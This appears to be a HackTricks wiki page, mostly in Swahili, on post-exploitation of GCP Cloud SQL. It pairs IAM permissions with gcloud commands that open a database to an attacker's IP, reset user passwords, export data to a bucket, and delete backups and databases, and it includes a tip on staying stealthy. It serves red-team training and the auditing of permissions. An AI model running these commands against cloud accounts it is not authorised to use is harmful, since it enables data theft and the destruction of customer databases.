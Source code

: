 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Kwa maelezo zaidi kuhusu Cloud SQL angalia:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Ili kuungana na hifadhidata unahitaji **tu ufikiaji wa bandari ya hifadhidata** na kujua **jina la mtumiaji** na **nenosiri**, hakuna mahitaji ya IAM. Hivyo, njia rahisi ya kupata ufikiaji, ikizingatiwa kwamba hifadhidata ina anwani ya IP ya umma, ni kuboresha mitandao iliyoidhinishwa na **kuruhusu anwani yako ya IP kuweza kuifikia**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Ni pia inawezekana kutumia **`--no-backup`** ku **haribu nakala za akiba** za hifadhidata.

Kwa kuwa hizi ndizo mahitaji, siko wazi kabisa ni ruhusa zipi **`cloudsql.instances.connect`** na **`cloudsql.instances.login`** zinahusiana nazo. Ikiwa unajua, tuma PR!

### `cloudsql.users.list`

Pata **orodha ya watumiaji wote** wa hifadhidata:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ruhusa hii inaruhusu **kuunda mtumiaji mpya ndani** ya hifadhidata:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ruhusa hii inaruhusu **k updating mtumiaji ndani** ya database. Kwa mfano, unaweza kubadilisha nenosiri lake:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups zinaweza kuwa na **habari nyeti za zamani**, hivyo ni muhimu kuziangalia.\
**Rejesha nakala ya akiba** ndani ya hifadhidata:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Ili kufanya hivyo kwa njia ya siri zaidi, inashauriwa kuunda mfano mpya wa SQL na kurejesha data hapo badala ya kwenye hifadhidata zinazotembea sasa.

### `cloudsql.backupRuns.delete`

Ruhusa hii inaruhusu kufuta nakala za akiba:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** kwa Cloud Storage Bucket ili uweze kuipata kutoka hapo:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Ingiza database** (andika upya) kutoka kwa Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Futa database kutoka kwa mfano wa db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
